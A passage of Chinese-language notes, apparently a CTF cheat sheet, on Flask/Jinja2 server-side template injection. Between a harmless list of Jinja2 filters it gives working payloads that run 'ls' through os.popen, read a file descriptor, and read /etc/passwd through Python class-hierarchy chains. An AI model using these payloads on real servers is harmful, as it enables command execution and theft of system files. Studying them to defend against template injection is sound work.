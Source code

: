 ```python
​
request              可以用于获取字符串来绕过，包括下面这些，引用一下羽师傅的。此外，同样可以获取open函数:request.__init__.__globals__['__builtins__'].open('/proc\self\fd/3').read()
request.args.x1      get传参
request.values.x1    所有参数
request.cookies      cookies参数
request.headers      请求头参数
request.form.x1      post传参 (Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data)
request.data         post传参 (Content-Type:a/b)
request.json         post传json  (Content-Type: application/json)
config               当前application的所有配置。此外，也可以这样{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
g                    {{g}}得到<flask.g of 'flask_ssti'>
```

#### 常见过滤器（转载）

```python
常用的过滤器
​
int()：将值转换为int类型；
float()：将值转换为float类型；
lower()：将字符串转换为小写；
upper()：将字符串转换为大写；
title()：把值中的每个单词的首字母都转成大写；
capitalize()：把变量值的首字母转成大写，其余字母转小写；
trim()：截取字符串前面和后面的空白字符；
wordcount()：计算一个长字符串中单词的个数；
reverse()：字符串反转；
replace(value,old,new)： 替换将old替换为new的字符串；
truncate(value,length=255,killwords=False)：截取length长度的字符串；
striptags()：删除字符串中所有的HTML标签，如果出现多个空格，将替换成一个空格；
escape()或e：转义字符，会将<、>等符号转义成HTML中的符号。显例：content|escape或content|e。
safe()： 禁用HTML转义，如果开启了全局转义，那么safe过滤器会将变量关掉转义。示例： {{'<em>hello</em>'|safe}}；
list()：将变量列成列表；
string()：将变量转换成字符串；
join()：将一个序列中的参数值拼接成字符串。示例看上面payload；
abs()：返回一个数值的绝对值；
first()：返回一个序列的第一个元素；
last()：返回一个序列的最后一个元素；
format(value,arags,*kwargs)：格式化字符串。比如：{{ "%s" - "%s"|format('Hello?',"Foo!") }}将输出：Helloo? - Foo!
length()：返回一个序列或者字典的长度；
sum()：返回列表内数值的和；
sort()：返回排序后的列表；
default(value,default_value,boolean=false)：如果当前变量没有值，则会使用参数中的值来代替。示例：name|default('xiaotuo')----如果name不存在，则会使用xiaotuo来替代。boolean=False默认是在只有这个变量为undefined的时候才会使用default中的值，如果想使用python的形式判断是否为false，则可以传递boolean=true。也可以使用or来替换。

length()返回字符串的长度，别名是count
```

```
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').read() #将read() 修改为 write() 即为写文件

[].__class__.__base__.__subclasses__()[40]('/etc/passwd').read() #将read() 修改为 write() 即为写文件 #将read() 修改为 write() 即为写文件
```
